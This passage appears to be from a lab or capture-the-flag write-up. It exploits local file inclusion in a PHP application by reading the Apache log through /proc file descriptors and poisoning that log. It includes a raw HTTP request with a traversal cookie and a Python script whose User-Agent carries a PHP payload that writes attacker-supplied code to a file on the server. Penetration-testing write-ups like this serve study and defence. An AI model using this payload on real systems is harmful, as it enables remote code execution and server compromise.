 <p style="text-align:justify;">
At this point we will use the child process ID from the <b>/proc/self/stat</b> file in order to identify the file descriptor which is related with the apache log file. Furthermore, using BurpSuite interceptor, and more specifically the repeater tool, we realized that in order to read the contents of the file representing a specific file descriptor linked with the apache log file, we need to repeat the request multiple times. After login into the web application and have a valid session, the following request used in order to read the contents of the <b>/proc/6642/fd/9</b> file. 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
GET /listings.php HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=e5b8db50b2dbb4913efcb0db6da74a77; user=../../../../../proc/6642/fd/9%00
Connection: close
</pre>

<p style="text-align:justify;">
We will first start brute forcing to see if we can read the file descriptors from 0 to 15. Moreover, one of these file descriptors are holding the httpd logs. 

The following python script used in order to find the wanted file descriptor. This script will show the langth of the HTTP responses. As said before, we might need multiple requests in order to achieve reading the contents of the <b>/proc/6642/fd/9</b> file. Also we have identified that the application does not have a logout button and the session id is valid until the user clears the browser's cache. Also the application does not have an anti-CSRF mechanism which allows us to execute any post request we want with out any restrictions. 
</p>

```python
import requests

target = "192.168.201.3"
port = "2425"
PHPSESSID="6b82a05ec984697da862a3b2acf884c4"

pid="6642"

url = "http://"+target+"/listings.php"

headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "<?$com=base64_decode($_GET['cmd']);$file=fopen('./data/yo.php','w'); fwrite($file,$com);fclose($file);phpinfo();?>", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "Cookie": "PHPSESSID="+PHPSESSID+"; user=../../../../../proc/"+pid+"/fd/9%00", "Connection": "close"}

for i in range (10):
	response = requests.get(url, headers=headers)
	cont = response.content
	print (len(cont))
	print ("")

```
